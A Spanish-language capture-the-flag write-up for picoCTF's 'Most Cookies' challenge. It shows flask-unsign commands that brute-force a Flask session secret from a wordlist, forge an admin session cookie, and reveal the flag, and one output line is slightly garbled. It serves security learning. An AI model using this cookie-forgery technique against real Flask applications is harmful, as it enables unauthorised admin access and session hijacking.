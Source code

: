 ## **Descripción**
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/)
## Hints
1. How secure is a flask cookie?
## **Solución** 
Para este reto haremos lo siguiente:
- Nos vamos al link que nos dan, lo primero que hacemos es inspeccionar la pagina en busca de alguna pista.
-  La forma en que esto funciona es que tenemos una barra de búsqueda, donde puedes buscar valores de cookies y la aplicación devuelve si dicho valor existe o no
- La cookie al parecer tiene el formato header.payload.signature, que parece un JWT.
- Necesitamos hacer que nuestra cookie sea very_auth con valor de administrador.
- Entonces, todo lo que tenemos que hacer es crear una cookie con cada secreto posible y el valor {“very_auth”:”admin”}
- Como conocemos todos los secretos posibles del archivo server.py, podemos forzarlo usando flask-unsign.

```
┌──(kali㉿kali)-[~/Documents/COMPETICION PICOCTF/WEB/Most Cookie]
└─$ flask-unsign --unsign --server http://mercury.picoctf.net:44693/ --wordlist cookies  

[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z_G29w.0YPRYfo2kY3u4loTyG7jJQDBoLQ
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'butter'
┌──(kali㉿kali)-[~/Documents/COMPETICION PICOCTF/WEB/Most Cookie]
└─$ flask-unsign -s -c "{'very_auth': 'admin'}" -S butter                       

eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_G7dw.nU9w8BnCUMTFGj3pwpVRaBg1a6o

picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}
```

## **Notas adicionales**

## **Referencias**

